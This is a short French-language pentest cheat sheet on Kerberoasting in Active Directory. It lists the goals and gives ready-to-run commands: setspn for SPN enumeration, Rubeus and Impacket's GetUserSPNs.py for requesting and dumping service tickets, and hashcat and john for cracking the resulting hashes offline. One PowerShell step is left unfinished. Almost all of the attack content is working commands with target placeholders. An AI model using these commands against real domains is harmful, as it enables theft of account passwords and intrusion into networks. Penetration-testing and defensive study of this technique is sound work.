 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Sources

- https://dl.packetstormsecurity.net/papers/general/kerberoasting.pdf

## Objectifs
- Obtenir une liste de compte utilisateurs disposant d'un SPN
- Collecter les TGS associés à ces SPNs (chiffrés en RC4)
- Tenter de cracker les mots de passe des comptes utilisateurs à partir des TGS récupérés (qui sont chiffrés avec les hash de comptes utilisateurs respectifs)

## Méthodologie
### Locale

#### Manuelle

```shell
# Enumérer tous les SPNs
setspn.exe -q */*
```

```powershell
# Demander un TGS pour le 
```
#### Utiliser Rubeus.exe

Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs
- 
./Rubeus.exe kerberoast /outfile:hash.txt


#### Cracker les hash :

hashcat -m 13100 --force -a 0 hash.txt dict.txt

### Distante

#### Impacket

##### Utiliser GetUserSPNs.py
 Il réalise les opérations suivantes :
- découverte des SPNs
- Dump des TGS
- Obtention des Hashs

```
# Liste des comptes disposant d'un SPN
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD

# Récupération des TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request

# Récupération d'un unique TGS
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request-user interesting.user

# Enregistrement des TGS pour les fournier à john / hashcat (fichier 'hashes.txt')
GetUserSPNs.py -dc-ip $TARGET_IP $AD_DOMAIN/$AD_USER:$AD_PASSWORD -request -outputfile hashes.txt
```

##### Cracker les hash (bruteforce)

```
john --wordlist=/path/to/rockyou.txt hashes.txt
```
[[_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
